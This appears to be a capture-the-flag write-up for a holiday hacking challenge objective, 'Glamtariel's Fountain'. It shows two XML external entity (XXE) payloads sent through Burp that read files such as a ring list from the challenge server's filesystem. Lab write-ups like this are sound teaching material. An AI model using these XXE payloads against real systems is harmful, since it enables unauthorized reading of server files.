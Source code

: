 
# Objective 10: Glamtariel's Fountain
**Location: Web Ring / Fountain**  
**Hints (2x) from Hal Tandybuck**

This objective is about getting familiar with XXE attacks.

When dragging the four objects on the top right to the princess and the fountain, they respond with several hints in upper case.

After all four objects were dropped to both targets, the four items are replaced.
The same has to be done again until the four items are again replace with four rings (one red, one silver, two blue).

Based on the hints, that XXE has to applied here and the princess holds the ringlist in a very simple format, we are trying to read the ringlist using XXE from a guessed path. For this the prior POST requests to /dropped can be replayed in Burp and converted to XML (with "different language" the princess ist referring to):
```
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```
The princess responds with a picture of the folder `x_phial_pholder_2022` containing two files, `bluering.txt` and `redring.txt`

![Ringlist](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/pholder-morethantopsupersecret63842.png)

In fact we are able to get access to the red ring file using the URL https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-1.txt

![Red Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/redring-supersupersecret928164.png)

On the inside of the red ring is written `goldring_to_be_deleted.txt`.

As Glamtariel says that she really would like to have a silver ring (which is with id `img1` on screen), we switch our request over to:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE reqType [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

Glamtariel responds back with the URL of the gold ring: `static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png`


![Gold Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/goldring-morethansupertopsecret76394734.png)

**Achievement: Glamtariel's Fountain**
